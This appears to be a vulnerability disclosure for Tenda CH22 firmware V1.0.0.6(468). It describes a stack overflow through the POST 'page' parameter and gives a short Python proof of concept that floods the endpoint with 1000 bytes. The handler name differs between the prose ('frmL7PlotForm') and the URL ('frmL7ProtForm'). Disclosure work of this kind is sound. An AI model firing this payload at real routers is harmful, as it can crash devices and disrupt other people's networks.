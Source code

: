 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmware has a stack overflow vulnerability located in the `frmL7PlotForm` function. This function accepts the `page` parameter from a POST request. The statement `v1 = sprintf(s, "im.asp?page=%s", v6);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v1` array, thus triggering this security vulnerability.
![Vulnerability Function2](165148.png)
## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/frmL7ProtForm"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```
![Vulnerability Function2](165257.png)